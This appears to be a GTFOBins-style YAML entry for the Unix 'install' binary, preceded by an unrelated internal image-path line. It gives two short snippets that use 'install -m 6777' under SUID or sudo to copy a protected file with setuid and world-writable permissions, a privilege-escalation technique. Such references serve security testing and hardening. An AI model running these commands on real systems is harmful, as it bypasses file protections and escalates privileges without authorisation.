 description: This can be run with elevated privileges to change permissions (`6` denotes the SUID bits) and then read, write, or execute a copy of the file.
functions:
  suid:
    - code: |
        LFILE=file_to_change
        TF=$(mktemp)
        ./install -m 6777 $LFILE $TF
  sudo:
    - code: |
        LFILE=file_to_change
        TF=$(mktemp)
        sudo install -m 6777 $LFILE $TF
---
